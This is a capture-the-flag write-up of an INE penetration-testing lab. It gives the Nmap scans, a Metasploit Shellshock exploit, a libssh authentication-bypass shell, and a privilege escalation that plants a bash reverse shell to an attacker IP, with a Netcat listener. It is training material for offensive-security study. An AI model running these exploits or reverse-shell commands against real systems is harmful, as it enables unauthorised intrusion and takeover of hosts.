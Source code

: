 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

```
nmap -sS -O -p- -T4 target1.ine.local
```

```
nmap -sS -O -p80 -sV -T4 target1.ine.local
```

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

```nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"```

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
```
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS target1.ine.local
setg TARGETURI /browser.cgi
setg LHOST 192.164.224.2 
run
```
**Note: If something is not working, try selecting another LPORT.**

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

### Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


## Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

```nmap target2.ine.local -p- -T4 -sS```

```nmap target2.ine.local -p22 -T4 -sS -sV```

Using:

```searchsploit libssh```

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
```
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1
```

Navigating to the home folder of the user, we locate the third flag.


### Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
```bash -i >& /dev/tcp/192.164.224.2/41234 0>&1```

After using Netcat to open port on the attack machine to listen for communications:

```nc -nlvp 41234```

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
